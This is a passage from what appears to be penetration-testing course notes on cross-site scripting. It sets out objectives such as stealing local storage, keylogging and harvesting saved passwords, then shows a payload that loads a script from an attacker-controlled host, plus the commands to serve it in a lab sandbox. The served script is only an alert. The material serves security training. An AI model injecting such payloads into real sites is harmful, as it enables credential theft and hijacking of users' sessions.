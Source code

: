 This Learning Unit covers the following Learning Objectives:

1. Load XSS payloads from external resources
2. Exfiltrate secrets loaded in a browser's local storage
3. Log a victim's keystrokes
4. Exfiltrate saved passwords from a password manager
5. Phish a user in a realistic way

Historically, attackers have used cross-site scripting vulnerabilities to steal session cookies from authenticated users. However, increased mitigations (most notably, the [_HttpOnly_ attribute](https://owasp.org/www-community/HttpOnly) on session cookies) have limited these attacks. As this limitation prevents only one vector of exploitation, we have many other vectors that we can choose to exploit.

For example, since browsers automatically authenticate requests from a user, we could use this feature to ride a user's session and conduct actions on their behalf, such as changing their password or downloading sensitive information. However, this usually requires a whitebox approach, an existing user account, or intimate knowledge of the application. For this reason, we won't focus on specific application-based exploits and instead, we'll use XSS to steal session tokens (and demonstrate how a session token with HttpOnly is not accessible) and extract data from the local storage.

We can also attack the user by logging keystrokes, extracting saved passwords from a password manager, or phishing the user. These types of attacks are independent of the application and will work on almost all applications, as long as there is something worthwhile to exploit.

-------------
#### 5.1.1. Accessing The Sandbox

For now, we can start the XSS Sandbox machine listed below and make the corresponding IP address update on our Kali machine before starting our work. We'll use this VM in this Learning Unit.

------------------
#### 5.1.2 Moving the Payload to an External Resource
The exploits we discuss here will be more complicated than an alert box. For this reason, we need to use a payload that can deliver a more complicated exploit. While it is possible to write a single line exploit to inject into the application, it's better to inject an HTML _script_ tag, which loads the full JavaScript from our Kali machine, as it will let us write more complicated JavaScript without encoding.

Let's demonstrate this by exploiting the Search application in the XSS Sandbox. For now, we'll still stick to the alert exploit, but this will be updated in the upcoming sections.

Instead of using inline JavaScript, we'll add a script tag and set the _src_ attribute to a file hosted on our Kali machine. This will make the payload `<script src="http://<KALI_IP>/xss.js"></script>`. We'll also need to make a file called xss.js on our Kali machine and host it. We'll use Python's built in HTTP server to host the file.

We'll serve everything in a directory named xss, which can be found in our home directory. The xss.js file will only contain an "alert" instruction. Finally, we'll start the HTTP server with python3 -m http.server 80.

```bash
┌──(root💀gobots)-[31Jul2024 20:23:23]-[/home/kali/SUT]
└─# mkdir xss

┌──(root💀gobots)-[31Jul2024 20:23:25]-[/home/kali/SUT]
└─# cd xss
echo "alert(1)" > xss.js

python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
Now that the server is started, let's use the payload to exploit the search application with the script below:
```js
<script src="http://192.168.45.222:8000/xss.js"></script>
```